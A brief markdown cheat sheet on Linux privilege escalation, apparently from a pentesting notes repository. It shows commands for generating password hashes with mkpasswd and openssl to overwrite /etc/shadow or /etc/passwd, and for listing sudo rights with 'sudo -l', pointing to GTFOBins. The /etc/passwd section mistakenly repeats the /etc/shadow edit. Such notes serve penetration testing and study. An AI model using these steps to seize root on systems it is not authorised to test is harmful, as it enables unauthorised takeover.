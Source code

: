 # Linux Privilege Escalation

## Writable /etc/shadow

```bash
# Generate hash sha512crypt
mkpasswd -m sha-512 some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Writable /etc/passwd

```bash
# Generate password for /etc/passwd
openssl passwd some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Sudo escalation

```bash
# Check programs allowed
sudo -l
```

[https://gtfobins.github.io](https://gtfobins.github.io)
